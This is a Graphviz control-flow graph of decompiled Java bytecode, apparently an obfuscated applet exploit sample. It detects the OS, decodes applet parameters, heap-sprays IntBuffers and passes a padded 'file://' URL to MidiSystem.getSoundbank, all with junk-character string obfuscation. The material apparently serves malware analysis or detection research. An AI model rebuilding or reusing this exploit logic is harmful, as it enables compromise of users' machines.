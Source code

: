 digraph "" {
    "r0 := @this: Ierhkfc"
    "push 47"
    "r0 := @this: Ierhkfc"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>"->"pop";
    "push \"oTTTTTsTTTT.nTTTamTTTTe\""
    "pop"->"push \"oTTTTTsTTTT.nTTTamTTTTe\"";
    "push \"T\""
    "push \"oTTTTTsTTTT.nTTTamTTTTe\""->"push \"T\"";
    "push \"\""
    "push \"T\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r1"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"win\""
    "load.r r1"->"push \"win\"";
    "push \"5\""
    "push \"win\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r1";
    "iflt load.r r1"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>";
    "staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>"->"store.r r1";
    "goto new java.lang.StringBuilder"
    "store.r r1"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"filYYe:YYY//\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"filYYe:YYY//\"";
    "push \"Y\""
    "push \"filYYe:YYY//\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ppppZppp%Z%ppZpppppp%Zppp%ppppZp%Z%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ppppZppp%Z%ppZpppppp%Zppp%ppppZp%Z%\"";
    "push \"p\""
    "push \"ppppZppp%Z%ppZpppppp%Zppp%ppppZp%Z%\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"888do\""
    "load.r r0"->"push \"888do\"";
    "push \"8\""
    "push \"888do\""->"push \"8\"";
    "push \"8\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Ierhkfc: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Ierhkfc: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Ierhkfc: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"reRRRR\""
    "load.r r0"->"push \"reRRRR\"";
    "push \"R\""
    "push \"reRRRR\""->"push \"R\"";
    "push \"R\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Ierhkfc: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <Ierhkfc: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "staticinvoke <Fjhf: java.lang.String decodeString(java.lang.String)>"
    "store.r r0"->"staticinvoke <Fjhf: java.lang.String decodeString(java.lang.String)>";
    "staticinvoke <Fjhf: java.lang.String decodeString(java.lang.String)>"->"load.r r0";
    "load.r r0"->"staticinvoke <Fjhf: java.lang.String decodeString(java.lang.String)>";
    "virtualinvoke <Ierhkfc: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "staticinvoke <Fjhf: java.lang.String decodeString(java.lang.String)>"->"virtualinvoke <Ierhkfc: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <Ierhkfc: java.nio.IntBuffer[] mem>"
    "virtualinvoke <Ierhkfc: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <Ierhkfc: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <Ierhkfc: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r1"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "iflt load.r r1"->"load.r r1";
    "push \"mac\""
    "load.r r1"->"push \"mac\"";
    "push \"l\""
    "push \"mac\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r1";
    "iflt load.r r1"->"push 47";
    "push 1080"
    "push 47"->"push 1080";
    "push 1080"->"staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>";
    "staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>"->"store.r r1";
    "store.r r1"->"goto new java.lang.StringBuilder";
    "iflt load.r r1"->"load.r r1";
    "push \"nVVix\""
    "load.r r1"->"push \"nVVix\"";
    "push \"V\""
    "push \"nVVix\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge push 47"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge push 47";
    "ifge push 47"->"load.r r1";
    "push \"nu::::x:::\""
    "load.r r1"->"push \"nu::::x:::\"";
    "push \":\""
    "push \"nu::::x:::\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 1337"
    "push 47"->"push 1337";
    "push 1337"->"staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>";
    "staticinvoke <Ierhkfc: java.lang.String repeat(char,int)>"->"store.r r1";
    "store.r r1"->"goto new java.lang.StringBuilder";
    "iflt return"->"return";
}
